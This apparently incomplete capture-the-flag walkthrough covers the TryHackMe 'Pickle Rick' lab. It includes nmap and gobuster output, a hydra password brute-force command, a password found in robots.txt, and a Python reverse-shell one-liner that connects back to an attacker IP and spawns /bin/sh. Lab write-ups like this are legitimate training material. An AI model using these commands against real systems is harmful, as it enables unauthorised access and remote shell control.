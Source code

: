 #   TryHackMe - Pickle Rick

```
Walkthrough by
Shaswata Saha
```

1.  Nmap scan

```bash
┌──(subhro1530㉿subhro)-[~/Desktop/tryhackme]
└─$ nmap -sC -sV -oA nmap.nmap -A 10.10.197.179
Starting Nmap 7.92 ( https://nmap.org ) at 2023-07-01 01:03 EDT
Nmap scan report for 10.10.197.179
Host is up (0.20s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 2d:50:ff:e3:be:ac:a6:07:22:c5:dc:c7:18:56:d3:3e (RSA)
|   256 8e:8f:4a:e5:cc:99:2b:45:5e:15:de:c7:d1:d8:66:3d (ECDSA)
|_  256 61:d0:1f:44:e4:fd:83:4c:d2:5f:b6:28:32:75:4f:92 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 67.11 seconds

```

2.  Gobuster Scan
```bash
┌──(subhro1530㉿subhro)-[~]
└─$ gobuster dir -u http://10.10.197.179 -w Documents/gobuster-wordlist/dsstorewordlist.txt

===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.197.179
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                Documents/gobuster-wordlist/dsstorewordlist.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/07/01 01:05:07 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 297]
/robots.txt           (Status: 200) [Size: 17]
/assets               (Status: 301) [Size: 315] [--> http://10.10.197.179/assets/]
/login.php            (Status: 200) [Size: 882]
/.htpasswd            (Status: 403) [Size: 297]
/.htpasswds           (Status: 403) [Size: 298]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]
Progress: 1828 / 1829 (99.95%)
===============================================================
2023/07/01 01:05:53 Finished
===============================================================

```

3.  TTried to use hydra
```bash
┌──(subhro1530㉿subhro)-[~]
└─$ hydra -l R1ckRul3s -P Documents/rockyou.txt 10.10.197.179 http-post-form "/login.php:username=R1ckRul3s&password=^PASS^&sub=Login:Invalid username or password." -I -v

```

4.  In robots.txt found
password :Wubbalubbadubdub

5.  Use the command ```grep -R . ``` inside of the command palette.
This will show all the files and contents. When you view the source of the page you can get to know what is happening.

6.  We find that python3 is working

7.  Reverse shell using netcat

Python reverse shell cheatsheet:
```bash
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.17.28.202",9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

Attacked on:
```bash

```

Output at:
```bash

```

8.  Stabilize the shell by downloading a .sh file from john hammond github:
```bash
#   https://github.com/johnhammond/poor-mans-pentest

```